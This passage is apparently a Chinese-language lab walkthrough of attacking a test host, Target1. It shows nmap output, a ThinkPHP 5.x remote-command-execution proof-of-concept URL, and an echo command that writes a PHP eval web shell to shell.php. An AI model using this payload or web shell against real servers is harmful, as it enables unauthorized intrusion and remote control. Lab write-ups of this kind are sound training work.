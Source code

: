 1、先用nmap扫描一下Target1

root@kali:~# nmap -T4 -O 192.168.1.11<br>
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-04 05:51 EDT<br>
Nmap scan report for 192.168.1.11<br>
Host is up (0.00042s latency).<br>
Not shown: 994 filtered ports<br>
PORT     STATE  SERVICE<br>
20/tcp   closed ftp-data<br>
21/tcp   open   ftp<br>
22/tcp   open   ssh<br>
80/tcp   open   http<br>
888/tcp  open   accessbuilder<br>
8888/tcp open   sun-answerbook<br>
MAC Address: 00:0C:29:81:A6:6D (VMware)<br>
Device type: general purpose<br>
Running: Linux 3.X|4.X<br>
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4<br>
OS details: Linux 3.10 – 4.11<br>
Network Distance: 1 hop

OS detection performed. Please report any incorrect results at https://nmap.org/submit/ .<br>
Nmap done: 1 IP address (1 host up) scanned in 8.97 seconds

可以看到Target1存在ftp、ssh、http等端口，且是一个Linux的操作系统。

2、既然存在http服务，那就用浏览器打开看看是个什么

[![](https://p1.ssl.qhimg.com/t01a331945117925158.png)](https://p1.ssl.qhimg.com/t01a331945117925158.png)

3、原来是ThinkPHP 5.X框架，这不禁让我想到18年底爆出的该框架的远程命令执行漏洞，那就先用POC测试一下

/index.php?s=index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=1

[![](https://p2.ssl.qhimg.com/t01eeca0d4f6609184a.png)](https://p2.ssl.qhimg.com/t01eeca0d4f6609184a.png)

4、成功出现了PHPinfo界面，说明该版本是存在这在漏洞的，接下来就可以直接上工具写入一句话了，当然也可以使用POC写入一句话，不过还是工具方便些

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0173ab29786b204b3f.png)

5、在工具中命令是可以被执行的，那就getshell吧

[![](https://p4.ssl.qhimg.com/t01398d43fb426830d3.png)](https://p4.ssl.qhimg.com/t01398d43fb426830d3.png)

6、昂~ getshell失败，没关系，直接echo写入一句话

echo “&lt;?php @eval($_POST[‘TeamsSix’]);?&gt;” &gt; shell.php

[![](https://p2.ssl.qhimg.com/t01fdede825e363f787.png)](https://p2.ssl.qhimg.com/t01fdede825e363f787.png)

7、通过浏览器访问，查看shell.php是否上传成功
